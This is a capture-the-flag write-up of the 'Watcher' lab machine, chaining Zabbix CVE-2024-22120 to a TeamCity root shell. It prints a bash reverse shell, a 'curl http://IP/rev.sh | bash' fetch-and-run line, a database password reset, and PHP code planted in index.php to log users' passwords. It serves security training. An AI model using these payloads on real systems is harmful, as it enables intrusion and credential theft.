









Watcher is a Linux medium-based machine developed by `DarkCaT` and `whatev3n`. The machine consists of an interesting chain of vulnerabilities that could be seen in corporate environments.

## Nmap

As with any machine regardless on a CTF or not, we need to start by enumerating the open ports to understand what kind of services we could reach over the VPN. Lately, I've developed the habit of running verbose `Nmap` scans, meaning that I can still peek into the services without waiting for the scan to determine the version and/or run the default scripts that `Nmap` has.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ sudo nmap -sVC 10.10.117.23 -v -oN nmap/initial         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 09:37 EEST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 09:37
Completed NSE at 09:37, 0.00s elapsed
Initiating NSE at 09:37
Completed NSE at 09:37, 0.00s elapsed
Initiating NSE at 09:37
Completed NSE at 09:37, 0.00s elapsed
Initiating Ping Scan at 09:37
Scanning 10.10.117.23 [4 ports]
Completed Ping Scan at 09:37, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:37
Completed Parallel DNS resolution of 1 host. at 09:37, 0.03s elapsed
Initiating SYN Stealth Scan at 09:37
Scanning 10.10.117.23 [1000 ports]
Discovered open port 80/tcp on 10.10.117.23
Discovered open port 22/tcp on 10.10.117.23
<SNIP>
```

As we can see from the snippet, `Nmap` quickly discovers two ports open, 22 and 80. As most of you might already know, those ports are commonly used for `SSH` and `HTTP` respectively.

Additionally, we can also peek into the more descriptive results of `Nmap` where we can check the service banners etc. 

```bash
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://watcher.vl/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Subsequently, we will notice that the HTTP service redirects to `watcher.vl`, which we will add (append) in our `/etc/hosts` file to resolve the address due to the absence of a public DNS.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ sudo sh -c 'echo 10.10.117.23 watcher.vl >> /etc/hosts'
```

Upon visiting the web page, we are greeted with somewhat of a static page with minimal information that we could leverage:



Due to the lack of useful information on the static page, we are going to proceed by performing a subdomain brute-force using `ffuf` to discover potential subdomains. Most of the people who use `ffuf` will try to pinpoint the filter size of false pages/subdomains etc using the `-fc` (filter size) parameter, however, I found that the `-ac` (automatic calibration filter) to be more helpful and easy to use as you don't bother with pinpointing different response sizes.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ ffuf -u http://watcher.vl -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.watcher.vl' -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://watcher.vl
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.watcher.vl
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

zabbix                  [Status: 200, Size: 3946, Words: 199, Lines: 33, Duration: 241ms]
:: Progress: [151265/151265] :: Job [1/1] :: 904 req/sec :: Duration: [0:02:41] :: Errors: 0 ::
```


From the subdomain brute force, we have found a potential subdomain which we can assume is related to [Zabbix](https://www.zabbix.com/). Zabbix is mostly used in environments as an asset management tool, that could automate the tedious tasks of checking usage on different system components, execution of commands on hosts etc. We will add the subdomain again to our `/etc/hosts` file. Also, if you are pedantic about the entries in your `hosts` file, you can follow along using a text editor of choice like `vi` / `vim`.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ sudo sh -c 'echo 10.10.117.23 zabbix.watcher.vl >> /etc/hosts' 
```

Upon visiting `Zabbix`, we are going to be facing a log-in page.


Most of organizations will disable the `sign in as guest` option, but in our case, it is enabled and we can utilize this kind of access to enumerate hosts.

![[Watcher-49.png]]

We can see that there is a single host added, additionally, the footer contains valuable information such as the current version in use.

Reviewing the reported bugs/vulnerabilities on the official website, we stumble upon the following case where a Time Based SQL Injection was reported - https://support.zabbix.com/browse/ZBX-24505 and it affects the version used on `Watcher`.

With a few more Google searches, we stumbled upon the following GitHub repository of the [CVE](https://github.com/W01fh4cker/CVE-2024-22120-RCE). We can proceed to clone the repository and further utilize the Python scripts for remote-code execution.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ git clone https://github.com/W01fh4cker/CVE-2024-22120-RCE
Cloning into 'CVE-2024-22120-RCE'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 14), reused 18 (delta 8), pack-reused 0
Receiving objects: 100% (30/30), 12.41 KiB | 470.00 KiB/s, done.
Resolving deltas: 100% (14/14), done.
```

The `RCE` script requires a few parameters such as the `sessionid` and `hostids`. We can grab the `sessionid` by decoding the `zbx_session` cookie from any of the requests either via `Burp Suite` or by using the requests from the `Network` tab in the `Dev Tools` of our browsers. A typical HTTP requests would be something like the following:

```http
HTTP/1.1 200 OK
Date: Fri, 02 Aug 2024 06:58:58 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Mon, 17 Aug 1998 12:51:50 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: zbx_session=eyJzZXNzaW9uaWQiOiI4MWNkMzliNTE4OTk3OGZmYjhmN2Y4ZDRiNGVhYjIzZSIsInNlcnZlckNoZWNrUmVzdWx0Ijp0cnVlLCJzZXJ2ZXJDaGVja1RpbWUiOjE3MjI1ODE5MzAsInNpZ24iOiIxNzgxMjk1MDAxNjY4NWZjYzM1ODc2MDE4NGMzM2ZhNTdkYmRlYjdhZGE3NzIwMWVjMjI3MzM4MTU0ODIxZjlkIn0%3D; HttpOnly
Content-Length: 23
Keep-Alive: timeout=5, max=98
Connection: Keep-Alive
Content-Type: application/json
```

We can use the following [recipe](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ZXlKelpYTnphVzl1YVdRaU9pSTRNV05rTXpsaU5URTRPVGszT0dabVlqaG1OMlk0WkRSaU5HVmhZakl6WlNJc0luTmxjblpsY2tOb1pXTnJVbVZ6ZFd4MElqcDBjblZsTENKelpYSjJaWEpEYUdWamExUnBiV1VpT2pFM01qSTFPREU1TXpBc0luTnBaMjRpT2lJeE56Z3hNamsxTURBeE5qWTROV1pqWXpNMU9EYzJNREU0TkdNek0yWmhOVGRrWW1SbFlqZGhaR0UzTnpJd01XVmpNakkzTXpNNE1UVTBPREl4Wmpsa0luMCUzRA) in CyberChef to decode the cookie and grab the `sessionid`.

```json
{"sessionid":"81cd39b5189978ffb8f7f8d4b4eab23e","serverCheckResult":true,"serverCheckTime":1722581930,"sign":"17812950016685fcc358760184c33fa57dbdeb7ada77201ec227338154821f9d"}
```

The `hostid` can be taken from the response of the `POST` request to `zabbix.php?action=host.view.refresh`, which looks like the following:

```html
<SNIP>
<none;">target: zabbix</div></div></td><td><span class="green">Enabled</span></td><td><a href="zabbix.php?action=latest.view&amp;hostids%5B0%5D=10084&amp;filter_set=1">
<SNIP>
```

Having obtained the two required values for the exploit, we are going to proceed to use the `CVE-2024-22120-RCE.py` exploit. The exploit itself will spawn a semi-interactive shell:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes/CVE-2024-22120-RCE]
└─$ python3 CVE-2024-22120-RCE.py --ip zabbix.watcher.vl --sid 81cd39b5189978ffb8f7f8d4b4eab23e --host 10084 

(!) sessionid=e29cc8d946f1a3135fe7ceec60d0ff0d

[zabbix_cmd]>>:  id
uid=115(zabbix) gid=122(zabbix) groups=122(zabbix)
```

To upgrade the shell I usually create and host a bash script with the well-known syntax for reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/IP/PORT 0>&1
```

And, subsequently, use the semi-interactive shell to grab and execute it.

```bash
[zabbix_cmd]>>:  curl http://IP/rev.sh | bash
```

With the new shell, we can grab the flag and proceed to think of a vector for privilege escalation:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ nc -nvlp 9001
listening on [any] 9001 ...

zabbix@watcher:/$ cd ~
cd ~
zabbix@watcher:/var/lib/zabbix$ ls
ls
user.txt
```

We can use `linPEAS` or any other automated enumeration tool, or we can use the plain and simple `find` command to search for writable files for example:


```bash
zabbix@watcher:/var/lib/zabbix$ find / -type f -writable 2>/dev/null                                                 
/tmp/zabbix_server.pid
/tmp/zabbix_agentd.pid
/tmp/zabbix_agentd.log
/tmp/zabbix_server.log
/var/lib/zabbix/user.txt
/usr/share/zabbix/trigger_prototypes.php
/usr/share/zabbix/hostinventories.php
/usr/share/zabbix/image.php/zabbix/api_jsonrpc.php
/usr/share/zabbix/robots.txt
/usr/share/zabbix/chart2.php
/usr/share/zabbix/local/README
<SNIP>
```

Based on the results the directory `/usr/share/zabbix` comes into much of interest. We can enumerate configuration files to search for passwords to databases etc.

```bash
zabbix@watcher:/usr/share/zabbix/conf$ cat zabbix.conf.php

<?php                           
// Zabbix GUI configuration file.
$DB['TYPE']                     = 'MYSQL';                                                                           
$DB['SERVER']                   = 'localhost';         
$DB['PORT']                     = '0';
$DB['DATABASE']                 = 'zabbix';
$DB['USER']                     = 'zabbix';
$DB['PASSWORD']                 = '<REDACTED>';

<SNIP>
```

Subsequently, we can utilize the password further enumerate the database of the Zabbix service via `mysql`:

```bash
zabbix@watcher:/usr/share/zabbix/conf$ mysql -h 127.0.0.1 -u zabbix -p
mysql -h 127.0.0.1 -u zabbix -p
Enter password: <REDACTED>

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 680
Server version: 8.0.37-0ubuntu0.22.04.3 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use zabbix;   
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Having a foot in the database, we can poke into the `users` table hoping to find something interesting:

```mysql
mysql> select username,passwd from users;
select username,passwd from users;
+----------+--------------------------------------------------------------+
| username | passwd                                                       |
+----------+--------------------------------------------------------------+
| Admin    | $2y$10$E9fSsSLiu47a1gnTULjx9.YygFRbVotGx4BOIVRTLdEa5OGAxeX5i |
| guest    | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Frank    | $2y$10$9WT5xXnxSfuFWHf5iJc.yeeHXbGkrU0S/M2LagY.8XRX7EZmh.kbS |
+----------+--------------------------------------------------------------+
3 rows in set (0.00 sec)
```

Based on the results, we can see three users - `Admin` and `Frank`, and also `guest`. Unfortunately, any password cracking attempt will not yield any success.  At this point, I went ahead and did some Google searches, and stumbled upon the following [documentation](https://www.zabbix.com/documentation/current/en/manual/web_interface/password_reset) with an example of how we can update the password of users. I copied and pasted the SQL command and updated the password of the `Admin` user to `zabbix`.

```mysql
mysql> UPDATE users SET passwd = '$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username = 'Admin';
UPDATE users SET passwd = '$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username = 'Admin';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Once we have updated the password, we can return to Zabbix and log in as `Admin`. Subsequently, having administrative access, we can review the `Audit log` where we come across an interesting behaviour (information). The user `Frank` logs in and logs out every minute.



With that information to our advantage, we can safely assume that automation is aimed at mimicking user behaviour. That being said since we have `write` access in the directory of the application, we can alter the `index.php` file to capture the credentials of the user.

By adding the following lines in the PHP file, we are going to capture every authentication and its credentials in a file called `creds.txt`:

```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
        $username = getRequest('name', ZBX_GUEST_USER);
        $password = getRequest('password', '');
        
        $file = fopen("creds.txt", "a+");
	fputs($file, "Username: {$_POST['name']} | Password: {$_POST['password']}\n");
	header("Location: http://127.0.0.1/index.php");
	fclose($file);
	
        CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);

        if (CWebUser::$data['autologin'] != $autologin) {
	    
                API::User()->update([
                        'userid' => CWebUser::$data['userid'],
                        'autologin' => $autologin
                ]);
        }

        $redirect = array_filter([CWebUser::isGuest() ? '' : $request, CWebUser::$data['url'], CMenuHelper::getFirstUrl()]);
        redirect(reset($redirect));
}
```

After a minute, we can see that the `creds.txt` got populated with the credentials of `Frank`:

```bash
zabbix@watcher:/usr/share/zabbix$ cat creds.txt

Username: Frank | Password: <REDACTED>
```

Since there are two users on the system, neither of them are using `Frank`'s password:

```bash
zabbix@watcher:/usr/share/zabbix$ cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

However, what I found interesting is the presence of `nmap` on the machine, meaning that we can scan the host (ourselves) for services that are not exposed publicly.

```bash
zabbix@watcher:/usr/share/zabbix$ nmap -p- 127.0.0.1

Starting Nmap 7.80 ( https://nmap.org ) at 2024-08-02 07:44 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00014s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
8105/tcp  open  unknown
8111/tcp  open  unknown
9090/tcp  open  zeus-admin
10050/tcp open  zabbix-agent
10051/tcp open  zabbix-trapper
33060/tcp open  mysqlx
38897/tcp open  unknown
58237/tcp open  unknown
```

Based on the results there are a few more ports (services) running on the machine than initially we thought. 

Doing a simple `curl` request on port `8111`, we find out that it is running `TeamCity`. Note: We could have found that using another approach with the help of `pspy`, where we will see that the `root` user is responsible for `TeamCity`.

```bash
zabbix@watcher:/usr/share/zabbix$ curl http://127.0.0.1:8111 -I -s

HTTP/1.1 401 
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
X-Content-Type-Options: nosniff
Content-Type: text/plain;charset=UTF-8
Content-Length: 66
Date: Fri, 02 Aug 2024 07:47:02 GMT
```

Subsequently, with that information in hand, we are going to utilize `chisel` to establish a local port forward. We need to transfer the binary onto the machine and start the binary on our machine in `server` mode.

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ ./chisel server --reverse --port 8081                                                                    
2024/08/02 10:50:23 server: Reverse tunnelling enabled
2024/08/02 10:50:23 server: Fingerprint LZjBgJdNsNtcKcbxvP6OrerGAywczmgNd3o1lIFkiaI=
2024/08/02 10:50:23 server: Listening on http://0.0.0.0:8081
2024/08/02 10:50:59 server: session#1: tun: proxy#R:8111=>8111: Listening
```

On the target machine, we initiate the `client` mode and connect to the server (ourselves):

```bash
zabbix@watcher:/usr/share/zabbix$ ./chisel client IP:3:8081 R:8111:127.0.0.1:8111

2024/08/02 07:50:59 client: Connecting to ws://IP:8081
2024/08/02 07:50:59 client: Connected (Latency 40.177246ms)
```

Having established the port forwarding, we can proceed to visit the application on port `8111` via our browser, and subsequently, log in using `Frank`'s credentials. 



We are presented with information about the version used, however, if we attempt to search for vulnerabilities related to that version we will find a few, but due to the configuration of `TeamCity` neither of them will work. At this point I have hit a wall, however, every application has some kind of auditing and this is the case with `TeamCity`. Since `Frank` has administrative access we can poke into the `Audit` functionality.



As we can see there are a few entries, which were probably left by the authors as a hint. And, as `TeamCity` is used as `CI/CD`, we can create a project and create a `Build Configuration Templates` to perform code execution.



Within `Build Steps` there a plenty of various code so-called "runners", but in our case we are going to stick to the `Command Line` one.



We are going to use the trivial `bash` reverse shell for our script.



We will then `Create a build configuration from this template`:



Subsequently, once created we need to `Run` the build configuration, which will establish a reverse shell connection to us:



After a few seconds, we will have a reverse shell as the `root` user:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ nc -nvlp 9001          
listening on [any] 9001 ...

root@watcher:/root/TeamCity/buildAgent/work/20d69593262d95b4# id  
uid=0(root) gid=0(root) groups=0(root)
```
